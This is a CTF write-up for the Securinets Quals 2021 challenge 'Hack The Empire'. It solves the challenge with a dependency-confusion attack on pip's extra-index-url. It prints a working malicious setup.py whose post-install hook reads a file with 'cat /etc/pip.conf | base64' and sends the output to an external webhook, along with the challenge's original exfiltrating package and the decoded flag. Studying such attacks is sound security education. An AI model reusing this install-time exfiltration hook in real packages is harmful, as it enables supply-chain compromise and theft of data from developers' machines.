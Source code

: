 ```yaml
---
layout: post
title: "[SecurinetQuals2K21] Hack The Empire"
author: Green-Avocado
---
```


# Hack The Empire

## Description

An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.

̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

Author: TheEmperors

## Solution

A quick Google search leads us to this blog post: https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/

![Blog Post](assets/images/securinetquals2021/hacktheempire/blog.png)

We can gather that the company is downloading packages from a private repository that match the following regex: `ctf_q21_empire_tmp_[a-z0-9_]{5,10}`

They also reveal the structure of their `pip.conf` file:

```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

Due to the behaviour of the `extra-index-url` option, pip will search their private repository in addition to the public repository, prioritizing them based on version number.

Therefore, we can trick the server into downloading a mallicious package by creating one that matches the regex with a sufficiently high version number.
We care told the location of the flag file, so we can read the flag as part of the install script.
To retreive the contents, we can use an http request containing the contents encoded in base64.

Additionally, if we search for the start of the regex, we find a removed package on PyPI, uploaded by TheEmperors.
Using Google's webcache feature, we can examine the repository despite it being removed:

https://webcache.googleusercontent.com/search?q=cache:N6A2lqcEQtcJ:https://pypi.org/project/ctf-q21-empire-tmp-bw13434/0.0.9/+&cd=1&hl=en&ct=clnk&gl=ca&client=firefox-b-d

We can download the contents of this package and modify it to work with out exploit.
The latest version of the package is [ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz](https://files.pythonhosted.org/packages/ad/17/5f0bbb9f170401e8d06b7ed15af58c5349d16622e18df196a7ed85b809fb/ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz).

Let's examine the `setup.py` script:

```py
from setuptools import setup
import os
from setuptools.command.install import install

setup(
    name='ctf-q21-empire-tmp-bw13434',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    )

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?hehe="+os.popen("id").read()) #cat /flag.txt | base64").read())
```

The `setup` call appears ordinary, however, there is an http request within the `PostInstallCommand` function.
We can see that it sends a request to a webhook containing the output of `id`.
Also, contained in a comment is a command that conveniently reads the flag file and converts it to base64.
We can modify this function to send the flag instead of the id, and we change the first request parameter to send it to a webhook controlled by us.
Importantly, we have to move the function declaration to above the call to `setup`, otherwise it will not be defined during the setup and thus will not be run.

I also changed the name of the package in hopes that it would not overlap with another package of theirs with a greater or equal version.
The package is relatively small, so all other files were updated to match the new package name.

## Exploit

```py
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://enc2i9ljmjy100e.m.pipedream.net/?hehe="+os.popen("cat /etc/pip.conf | base64").read())

setup(
    name='ctf-q21-empire-tmp-1337420',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand,
        },
    )
```

Within 5 minutes, we get a request with some data encoded in base64:

```
VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs
IGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo
dHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2
MGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw
cGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f
eERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt
b3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z
IG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug
YXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz
IGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg
LS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91
IGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl
ZC4=
```

Which can be decoded into:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

## Flag

`Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`

